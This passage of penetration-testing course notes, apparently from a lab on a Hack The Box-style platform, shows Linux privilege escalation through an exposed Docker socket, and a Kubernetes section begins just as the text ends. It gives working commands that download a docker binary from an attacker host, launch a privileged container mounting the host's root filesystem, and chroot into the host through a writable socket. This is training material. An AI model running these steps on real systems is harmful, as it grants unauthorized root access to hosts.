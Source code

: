 From here on, we can use the `docker` to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it [here](https://master.dockerproject.org/linux/x86_64/docker) and upload it to the Docker container.

    wget https://<parrot-os>:443/docker -O docker
    chmod +x docker
    ls -l
    
    -rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker
    
    /tmp/docker -H unix:///app/docker.sock ps
    
    CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
    3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   ap

We can create our own Docker container that maps the host’s root directory (`/`) to the `/hostsystem` directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the `main_app` Docker image.

    /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
    /tmp/docker -H unix:///app/docker.sock ps
    
    CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
    7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
    3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
    <SNIP>

Now, we can log in to the new privileged Docker container with the ID `7ae3bcc818af` and navigate to the `/hostsystem`.

    /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


<a id="orgce39049"></a>

### Writable Socket

A case that can also occur is when the Docker socket is writable. Usually, this socket is located in `/var/run/docker.sock`. However, the location can understandably be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

    docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash


<a id="orgb04cc47"></a>

## Kubernetes

[Kubernetes](https://kubernetes.io/), or `K8s` is a technology that has revolutionized `devops` processes
One of the key features of Kubernetes is its adaptability and compatibility with various environments. This platform offers an extensive range of features that enable developers and system administrators to easily configure, automate, and scale their deployments and applications.

